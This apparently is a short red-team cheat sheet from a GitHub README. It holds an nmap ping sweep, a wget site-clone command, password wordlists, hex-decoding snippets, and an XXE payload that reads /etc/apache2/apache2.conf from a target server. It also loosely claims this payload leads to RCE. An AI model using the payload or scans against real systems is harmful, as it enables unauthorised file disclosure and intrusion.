 # Red Team

* gethead.sh - gets HEAD from some webservesr.
* getrobots.sh - get ```robots.txt`` from webservers.
* hexstr.py - converts hex-encoded str back to ascii

### Very quick ping sweep
```sudo nmap -n -sn -PE -T5 $ipRange```

### Clone web page
```wget -r -nH $url```


### Wordlists
* [SecList](https://github.com/danielmiessler/SecLists)
* raft-large
* rockyou

## Python

## Dealing with hex encoded strings.

### Convert hex to dec, 6c = 'l'
```dec = int("6c", 16)```

### Print that in ascii
``` print chr(dec)```

## XXE (XML External Entity)

Find some Rest/XML API endpoint of a webapp, using POST requests you can get it to RCE.
```xml
<?xml version="1.0"?>
<!DOCTYPE food [
<!ELEMENT foo ANY>
<!ENTITY entityex SYSTEM "file:///etc/apache2/apache2.conf">
]>
<abc>&entityex;</abc>
```

